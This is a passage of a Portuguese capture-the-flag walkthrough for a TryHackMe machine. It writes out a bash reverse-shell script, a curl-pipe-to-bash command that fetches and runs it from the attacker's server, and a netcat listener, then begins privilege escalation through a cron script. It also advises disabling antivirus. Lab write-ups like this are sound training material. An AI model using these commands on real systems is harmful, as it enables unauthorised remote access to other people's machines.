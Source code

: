 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## ⚠️ Obs: Desligar o antivírus

### 💡 A máquina parece ter o `curl`. Dá pra subir um arquivo shell usando um servidor Python, baixar com `curl`, executar e escutar a resposta do outro lado.

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)

### 📄 Conteúdo do arquivo `shell_2.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.168/4444 0>&1
```

### 🚀 Dentro dessa pasta, vamos subir o servidor Python para baixar com o curl:

![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### 🌐 No site, usamos o comando `curl` para baixar o arquivo e em seguida já executá-lo:

```bash
curl http://[IP]:[PORTA]/shell_2.sh | bash
```

![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### Confirmação : ::ffff:192.168.100.207 - - [21/May/2025 02:49:03] "GET /shell_2.sh HTTP/1.1" 200

### 📡 Em outro terminal, deixamos o listener pronto com:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

---

### ✅ Shell recebido! Agora é hora de fazer pós-exploração e escalar privilégios.

#### Acesso à máquina com usuário `www-data`:

![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)

---

### 🗂️ Aqui estão todos os arquivos encontrados com fuzzing. Agora vamos explorá-los em busca de algo útil.

### Dentro da pasta `/opt`, encontramos um script `.sh` que é executado via cron a cada minuto:

![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)

### 🔍 Entendendo o que ocorre dentro do script:

![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)

---

